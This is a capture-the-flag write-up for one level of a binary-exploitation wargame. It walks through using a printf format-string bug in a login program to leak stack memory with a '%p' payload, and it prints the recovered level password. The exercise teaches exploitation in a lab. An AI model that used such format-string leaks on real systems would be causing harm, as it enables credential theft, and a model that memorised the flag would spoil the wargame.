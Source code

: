 # Level 02

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level02
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level02@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02

level02@OverRide:~$ls
level02
level02@OverRide:~$
```

Let's run the program.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaaaaaaaa
--[ Password: bbbbbbbbbbbbbbbbbbbb
*****************************************
aaaaaaaaaaaaaa does not have access!
level02@OverRide:~$
```

By decompiling the source code (with [Hopper](https://www.hopperapp.com/) this time), it first opens the file of the token of level 3, and asks for input from the user. (Apparently this program doesn't seem to check whether the username is correct or not.) If the input doesn't match with the content of the password (the flag for level03), it will print out user name _directly from the user input_ before denying access.

```
	[...]

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\");
    puts("| You must login to access this system. |");
    puts("\**************************************/");
    printf("--[ Username: ");
    // 0x64 = 100, stdin = 1
    fgets(&buffer_username, 0x64, stdin);    // <- here is the part taking input from stdin

	....

	if (strncmp(&buffer_password_file, &buffer_password_input, 41) == 0) {
        printf("Greetings, %s!\n", &buffer_username);
        system("/bin/sh");
        return (0);
	} else {
	    printf(&buffer_username);              // <- here is the part prints the output
	    puts(" does not have access!");
	    exit(1);
	}

	[...]
```

Remember, if the format string is sent directly to the function `printf`, it can be made to print values from the memory (the stack), which a vulnerability.

Also, since the variables are declared on the stack, the values are stored next to each other, which means that we can easily print out the values.

```
	int main(int arg0, int arg1) {
		FILE	*fs;
		size_t	read_count;
		char	buffer_username[100];
		char	buffer_password_file[42];
		char	buffer_password_input[100];

		[...]
```

Let's try and see if the value can be printed. We'll use `%p`, instead of `%x`, which will print out the memory formatted as pointers. This will make it so that even if the memory has leading 0s, we will still get the full hex-formatted memory. (e.g. `0x0000000000000001`)

```
level02@OverRide:~$ python -c 'print "%p "*100 + "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4a0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe698 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0x2c3000 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

We now have the password value (but reverse endian-ness order): `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`

We wrote a quick script (with comments) to decode these hex memory values into the password that you can see at `Ressources/decode_password.py`.

```
$ python3 decode_password.py
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try the password we decoded.

```
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```

Success!
